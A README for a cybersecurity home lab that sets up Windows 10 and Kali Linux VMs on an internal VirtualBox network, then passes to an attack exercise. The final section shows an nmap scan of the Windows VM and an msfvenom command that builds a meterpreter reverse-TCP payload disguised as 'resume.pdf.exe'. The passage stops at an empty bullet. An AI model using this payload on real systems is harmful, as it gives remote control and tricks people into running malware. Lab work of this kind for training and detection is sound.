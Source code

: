 # Cybersecurity-HomeLab (on a Windows Machine) 

## Objective

Building a cybersecurity home-lab for offense and defense 

### Skills Learned

- Virtual Machines
- NAT network
- VM Snapshots
- VM Guest additions

  

### Tools Used

- VirtualBox
- https://www.youtube.com/watch?v=kku0fVfksrk
- 
  

### Steps to install all the ISO VM inside VirtualBox and config

- Download Windows 10 from Windows official website. https://www.microsoft.com/en-ca/software-download/windows10ISO
- Download Kali Linux from the official website and choose the virtual box option.
- When installing windows 10 make sure to add the ISO file and skip unattended installation.
- Open the Vbox file for Kali Linux to add it to VirtualBox

### Creating a internal network for the VMS

- We will choose internal network for all the VMs and name it.
- We will go to the Windows 10 machine and right-click on the internet icon and go to change adapter options
- We will go to options for the ethernet and find internet protocol 4 and click on properties and add the static IP addresses we want. (ip 192.168.20.10, subnet 255.255.255.0 and gateway empty)
- We can check the new IPs by going to CMD and ipconfig
- We will do the same to the Kali by going to the ethernet and right-click and edit connection
- We select the wired connection and then options.
- We go to IPv4 settings
- We select manual from the Method dropdown
- We will add new address, 192.168.20.11 and the netmask 24
- We go to terminal and ifconfig to check the static IP address we choose.

### Creating telemetry to detect evil

- We will go to Kali and then type nmap -A <the windows IP> -Pn and we look for an open port
- We can see port 3389/tcp open
- We will now create a malware using msfvenom
- We can see all the payloads by typing msfvenom -l payloads
- We will choose a meterpreter reverse tcp for windows
- We type msfvenom -p <then the payload we want to create> lhost=ip of kali lport=4444 -f exe -o resume.pdf.exe then we enter and the file will be created at the desktop
- 
